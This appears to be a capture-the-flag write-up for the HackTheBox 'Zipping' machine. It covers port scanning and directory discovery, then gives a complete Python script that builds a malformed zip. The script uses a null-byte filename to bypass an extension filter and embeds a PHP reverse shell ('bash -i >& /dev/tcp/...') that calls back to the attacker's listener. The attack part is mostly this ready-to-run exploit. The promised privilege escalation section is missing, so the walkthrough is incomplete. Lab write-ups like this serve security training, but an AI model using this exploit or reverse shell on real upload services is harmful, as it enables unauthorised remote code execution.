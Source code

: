 ```yaml
---
title: RED TEAM 
date: 2023-12-12 10:20:40 +/-TTTT
categories: [htb]
tags: [htb]     # TAG names should always be lowercase
---
```


## **<span style='color:#ff5555'>Zipping</span>**

Welcome to my another writeup! In this HackTheBox [Zipping](https://app.hackthebox.com/machines/Zipping) machine, you'll learn: Content discovery via `gobuster Or anything`, exploiting file upload vulnerbility & extension filter bypass.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Table of Content

1. **[Service Enumeration](#service-enumeration)**
2. **[Initial Foothold](#initial-foothold)**
3. **[Privilege Escalation:](#privilege-escalation)**
4. **[Conclusion](#conclusion)**

## Background

![Alt Text](/assets/images/htb/zipping.png)

## Service Enumeration

**Create 2 environment variables for future use:**
```shell
k0r3k@k0r3k ~/cybersec/htb/machine/zipping$ export RHOSTS=10.10.11.229

k0r3k@k0r3k ~/cybersec/htb/machine/zipping$ 
export LHOST=ifconfig tun0 | grep -E 'inet [0-9]+\.[0-9]+\.[0-9]+\.[0-9]' | cut -d' ' -f10
```

As usual, scan the machine for open ports via `nmap`!

**nmap:**
```shell
k0r3k@k0r3k ~/cybersec/htb/machine/zipping$ nmap -sC -sV -T4 -A --vv $ip -oN nmap_day

Result :
Discovered open port 22/tcp on 10.10.11.229
Discovered open port 80/tcp on 10.10.11.229

PORT     STATE    SERVICE REASON      VERSION
22/tcp   open     ssh     syn-ack     OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9d:6e:ec:02:2d:0f:6a:38:60:c6:aa:ac:1e:e0:c2:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBP6mSkoF2+wARZhzEmi4RDFkpQx3gdzfggbgeI5qtcIseo7h1mcxH8UCPmw8Gx9+JsOjcNPBpHtp2deNZBzgKcA=
|   256 eb:95:11:c7:a6:fa:ad:74:ab:a2:c5:f6:a4:02:18:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOXXd7dM7wgVC+lrF0+ZIxKZlKdFhG2Caa9Uft/kLXDa
80/tcp   open     http    syn-ack     Apache httpd 2.4.54 ((Ubuntu))
|_http-title: Zipping | Watch store
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.54 (Ubuntu)
3945/tcp filtered emcads  no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Now, we can perform content discovery using tools like gobuster to find hidden directories and files:

```shell
k0r3k@k0r3k ~/cybersec/htb/machine/zipping$
gobuster dir -u http://10.10.11.229/ -w /home/k0r3k/cybersec/exploit/tools/SecLists/Discovery/Web-Content/raft-large-files-lowercase.txt -t 40
```

- Found directory: **`/upload.php `**

Here we can see that we have to upload a zip file containing a pdf, with this scenario we can identify a zip flip attack.

I made it in python so it can be reviewed

```python
from struct import pack
import argparse
import zlib
import requests

parser = argparse.ArgumentParser(description='Exploit Zipper')
parser.add_argument('-L', '--listener_ip', help='listener ip')
parser.add_argument('-R', '--target_ip', help='target ip')
args = parser.parse_args()

filename1 = b'rev.php.pdf'
filename2 = b'rev.php\x00.pdf'

filecontent = b"""<?php system("bash -c 'bash -i >& /dev/tcp/"""+args.listener_ip.encode()+b"""/9001 0>&1'"); ?>"""
length = len(filecontent)
crc = zlib.crc32(filecontent)


p  = b''
p += b'\x50\x4b\x03\x04' # magic bytes
p += b'\x14\x00' # version
p += b'\x00\x00' # flags
p += b'\x00\x00' # compression
p += b'\x48\xb9' # modtime
p += b'\x1b\x57' # moddate
p += pack("<L", crc) # crc
p += pack("<L", length) # compressed size
p += pack("<L", length) # uncompressed size
p += pack("<H", len(filename1)) # filename len
p += b'\x00\x00' # extra field len
p += filename1
p += filecontent

# central directory
cd  = b''
cd += b'\x50\x4b\x01\x02' # magic bytes
cd += b'\x14\x03' # version
cd += b'\x14\x00' # version needed
cd += b'\x00\x00' # flags
cd += b'\x00\x00' # compression
cd += b'\x48\xb9' # modtime
cd += b'\x1b\x57' # moddate
cd += pack("<L", crc) # crc
cd += pack("<L", length) # compressed size
cd += pack("<L", length) # uncompressed size
cd += pack("<H", len(filename2)) # filename len
cd += b'\x00\x00' # extra field len
cd += b'\x00\x00' # file comm. len
cd += b'\x00\x00' # disk start
cd += b'\x00\x00' # internal attr.
cd += b'\x00\x00\xA4\x81' # external attr
cd += b'\x00\x00\x00\x00' # offset of local header
cd += filename2

# end of centryl directory record
ecd  = b''
ecd += b'\x50\x4b\x05\x06' # magic bytes
ecd += b'\x00\x00' # disk number
ecd += b'\x00\x00' # disc # w/cd
ecd += b'\x01\x00' # disc entries
ecd += b'\x01\x00' # total entries
ecd += pack("<L", len(cd)) # central directory size
ecd += pack("<L", len(p))
ecd += b'\x00\x00'

f = open("rev.zip", "wb")
f.write(p+cd+ecd)
```

## And Get the shell And root, eNJOY tHE Game.

# **<span style='color:#ff5555'>DISCLAIMER</span>**
```
This cheatsheet is intended to guide CTF players in their research. This cheatsheet, and its content does match with the creation of an interesting challenges 😉.
```